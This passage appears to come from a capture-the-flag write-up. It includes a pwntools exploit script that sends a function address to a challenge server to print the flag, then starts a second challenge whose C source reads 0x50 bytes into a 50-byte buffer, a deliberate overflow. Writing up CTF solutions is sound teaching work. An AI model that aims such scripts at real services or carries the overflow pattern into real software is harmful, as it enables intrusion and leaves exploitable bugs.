 ```python
#!/usr/bin/env python3
# Author: 0xEpitome

from pwn import *

exe = ELF("./menu_patched", checksec=False)

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("chall.pwnoh.io", 13371)

    return r


def main():
    r = conn()
    r.recvuntil(b"4: Quit")
    # The flag function can be gotten using gdb or ghidra
    flag = p64(0x0010152)
    r.sendline(flag)
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
# bctf{y0u_ARe_sNeaKy}
```
Run the script and you get the flag.


#### Starter Buffer (Pwn)

This was another pretty easy challenge, the creators of this CTF were generous enough to provide the source code of the challenges.
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag(void) {
    FILE* fp = fopen("flag.txt", "r");
    char flag[100];
    fgets(flag, sizeof(flag), fp);
    puts(flag);
}

int main(void) {
    // Ignore me
    setbuf(stdout, NULL);

    int flag = 0xaabdcdee;
    char buf[50] = {0};
	printf("Enter your favorite number: ");
	fgets(buf, 0x50, stdin);

```